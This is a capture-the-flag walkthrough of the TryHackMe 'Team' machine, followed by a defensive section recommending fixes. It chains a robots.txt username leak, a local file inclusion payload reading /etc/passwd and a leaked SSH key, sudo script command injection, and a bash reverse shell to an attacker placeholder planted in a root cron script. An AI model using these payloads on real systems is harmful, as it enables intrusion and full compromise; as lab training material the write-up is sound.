# Team Writeup

**Machine Name:** Team  
**Platform:** TryHackMe  
**Difficulty:** Easy

---



## Introduction

Team looks like a simple boot2root box on the surface, but it packs three separate privilege boundaries into one easy-rated machine. There is no single dramatic exploit here. Instead, it's a chain of small mistakes: an exposed username, a file-read bug, a private key sitting where it never should have been, a sudo rule that trusts user input, and a cron job that the wrong group can hijack. Each step looks minor on its own. Stacked together, they walk an attacker from an anonymous visitor straight to root.

## Phase 1: Enumeration

I started with a full TCP port scan against the target.

> nmap -p- -sV -sC \<TARGET_IP\>

Three ports came back open: FTP, SSH, and HTTP.

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

The web server's title just said "Team," so I pointed a browser at it after adding the host to `/etc/hosts`. It turned out to be a plain personal blog template with no real content of its own.



A directory scan turned up a few interesting paths: `/assets`, `/images`, `/scripts`, and a `robots.txt` file.



Checking `robots.txt` is one of those habits that pays off more often than it should. This one disclosed a single line: the name **dale**. Not a password, not a hash, just a name. But on a box this small, a name is a lead worth keeping.



> **Security Issue #1:** Username Disclosure via robots.txt. Robots.txt is meant to steer search engine crawlers away from certain paths, not to double as an internal notes file. Leaking a real employee or system username here gives an attacker a head start on every later brute force, phishing, or credential stuffing attempt.

## Phase 2: A Subdomain Still Under Construction

The main site didn't have much else to offer, so I turned to subdomain enumeration and found `dev.team.thm`. The page was refreshingly honest about its state: "Site is being built," with a single placeholder link underneath.



Clicking that link landed on a URL that immediately caught my eye:

```
http://dev.team.thm/script.php?page=teamshare.php
```



A `page` parameter that loads a `.php` file by name is a classic shape for a local file inclusion bug. Development subdomains have a habit of shipping half-finished features straight to production, and this one was no exception.

## Phase 3: Local File Inclusion Leaks an SSH Key

I tested the `page` parameter with a directory traversal payload, and it read straight through to the operating system.

```
http://dev.team.thm/script.php?page=../../../etc/passwd
```



The confirmed LFI, `/etc/passwd`, listed a handful of local accounts worth remembering for later: `dale`, `gyles`, `ftpuser`, `ssm-user`, and `ubuntu`. With arbitrary file read confirmed, the next stop was anything security relevant. `/etc/ssh/sshd_config` seemed like a safe bet, and it paid off in a way I did not expect.



Buried after the normal SSH daemon configuration lines sat something that had no business being there: a full OpenSSH private key, labeled in a comment as belonging to Dale. Someone had pasted a private key into a server config file, of all places, presumably as a backup or a shortcut, and forgotten it was reachable by anyone who could read the file. I used the browser's view source option to pull the raw, unrendered text so the key's line breaks stayed intact.



> **Security Issue #2:** Local File Inclusion Exposing a Private SSH Key. The `page` parameter passed straight into a file include without any validation, letting an outside visitor read any file the web server had access to. That alone is serious. What made it worse is what it exposed: a private SSH key stored in plain text inside a totally unrelated configuration file, handing over direct system access with no brute forcing required.

## Phase 4: Initial Foothold via SSH

I saved the key locally, fixed its permissions, and used it to log in as Dale.

```
chmod 600 dale
ssh -i dale dale@<TARGET_IP>
```




### First flag

Dale's home directory had a `user.txt` waiting.



## Phase 5: Sudo Command Injection Turns Dale into Gyles

Landing a shell rarely means the job is done, so I checked what Dale was allowed to run as someone else.

```
sudo -l
```

The output showed a single, oddly specific rule: Dale could run `/home/gyles/admin_checks` as the user gyles, no password required.



Reading the script explained why that rule existed and why it was dangerous. It asked for two pieces of input, a name and a "date," and then executed the second answer directly as a shell command.



Running the script and answering the date prompt with `bash` instead of an actual date spawned an interactive shell as gyles.




> **Security Issue #3:** Command Injection via an Insecure Sudo Rule. The script took a value meant to be a timestamp and ran it as a live command with no sanitization. Combined with a NOPASSWD sudo rule handing that script to another account, this turned a simple maintenance utility into a ready made privilege escalation path from Dale straight to gyles.

## Phase 6: A Root Cron Job With the Wrong Permissions

Gyles belonged to a more interesting set of groups, including `admin`, and that membership mattered. Poking around `/opt` turned up an `admin_stuff` directory owned by root but writable by the admin group, sitting on a script that a root cron job ran every minute.



That script simply called two other scripts to back up site files, one of them being `/usr/local/bin/main_backup.sh`.



Since gyles's group membership gave write access along that chain, I generated a reverse shell one liner and dropped it into `main_backup.sh`, ahead of the original backup command so the script would still finish normally afterward.

```
bash -i >& /dev/tcp/<ATTACKER_IP>/1113 0>&1
```




With a listener running, the next scheduled run of root's cron job fired the payload within a minute.

```
nc -lvnp 1113
```



> **Security Issue #4:** Insecure Permissions on a Root Cron Job Script. A script executed by root on a fixed schedule was reachable and modifiable by a low privileged group. Any account in that group could rewrite what root was about to execute next, which is about as direct a path to full system compromise as privilege escalation gets.

### Flag 2

`whoami` confirmed root, and `/root/root.txt` closed out the room.



## Blue Team Perspective

Working back through the chain, here is where I think a defensive team could have caught each step.

### 1. Username Disclosure via robots.txt

Automated recon tools check `robots.txt` as a matter of routine, so anything sensitive placed there should be treated as public. Fix: keep internal names, hints, and notes out of any file the web server serves, robots.txt included, and review it the same way you would review a public facing page.

### 2. Local File Inclusion and Exposed Credentials

A single unvalidated parameter gave full read access to the filesystem, and a stray private key turned that into a working login. Fix: never pass raw user input into a file include function, validate against an allow list of expected filenames, and never store private keys or credentials inside configuration files that aren't specifically built to hold secrets.

### 3. Command Injection in a Sudo Controlled Script

A script trusted with elevated privileges executed unsanitized user input as a command. Fix: treat every sudo controlled script as security critical code, validate and constrain all input, and avoid granting NOPASSWD access to anything that reads from a user at runtime.

### 4. Overly Permissive Ownership on a Privileged Cron Job

A script executed by root was writable by a non root group, closing the loop between a mid privilege user and full system compromise. Fix: lock down write access to anything a root cron job touches to root only, and audit scheduled tasks the same way you would audit sudoers rules.


This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I try to look at each machine from both the attacker's side and the defender's side, since understanding both is what actually makes someone useful on a security team.

If you're also working toward a SOC or Security Engineering role, feel free to connect. I'm always happy to talk shop or trade resources.
